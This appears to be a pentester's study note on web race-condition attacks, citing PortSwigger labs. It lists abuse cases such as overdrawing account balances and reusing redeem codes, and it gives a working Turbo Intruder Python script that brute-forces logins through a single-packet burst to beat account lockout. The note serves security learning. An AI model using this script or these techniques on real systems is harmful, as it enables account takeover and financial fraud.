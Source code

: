 ## Submitting a form multiple times using Burp repeater
1. Create a group and duplicate tabs within it.
2. Click the drop-down arrow by the side of the Send button and select "Send group in parallel"
3. Click Send group. Repeater sends all of the requests from the grouped tabs.
Use-cases

> Using a redeem code multiple times

> Rating a product multiple times

> Withdrawing or transferring cash in excess of your account balance

> Reusing a single CAPTCHA solution

## Bypassing Rate limiting using Turbo Intruder

Turbo Intruder is suited to more complex attacks, such as ones that require multiple retries, staggered request timing, or an extremely large number of requests.

### Probe for clues
1. if you're temporarily locked out. after (x) number of concurent failed login attempts
2. Send the group of requests again in parallel.
3. Study the responses. Notice that although you have triggered the account lock, more than (x) requests received the normal Invalid username and password response.
4. Infer that if you're quick enough, you're able to submit more than three login attempts before the account lock is triggered.

### Proof-of-concept
1. Highlight the part you wanna brute-force (password=%s)
2. Right-click and select Extensions > Turbo Intruder > Send to turbo intruder.
3. From the drop-down menu, select the examples/race-single-packet-attack.py template
4. In the Python editor, edit the template so that your attack queues the request once using each of the candidate passwords. For simplicity, you can copy the following example:

'

    def queueRequests(target, wordlists):
    
        # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
        engine = RequestEngine(endpoint=target.endpoint,
                               concurrentConnections=1,
                               engine=Engine.BURP2
                               )
        
        # assign the list of candidate passwords from your clipboard
        passwords = wordlists.clipboard
        
        # queue a login request using each password from the wordlist
        # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
        for password in passwords:
            engine.queue(target.req, password, gate='1')
        
        # once every request has been queued
        # invoke engine.openGate() to send all requests in the given gate simultaneously
        engine.openGate('1')
    
    
    def handleResponse(req, interesting):
        table.add(req)
        
 
[Multi-endpoint Race Conditions](https://www.youtube.com/watch?v=SvpxBM7s-G4).


[Single-endpoint Race Conditions](https://portswigger.net/web-security/race-conditions/lab-race-conditions-single-endpoint)

# Refrences
https://portswigger.net/web-security/race-conditions

https://portswigger.net/research/the-single-packet-attack-making-remote-race-conditions-local

https://sakurity.com/blog/2015/05/21/starbucks.html

https://github.com/TheHackerDev/race-the-web
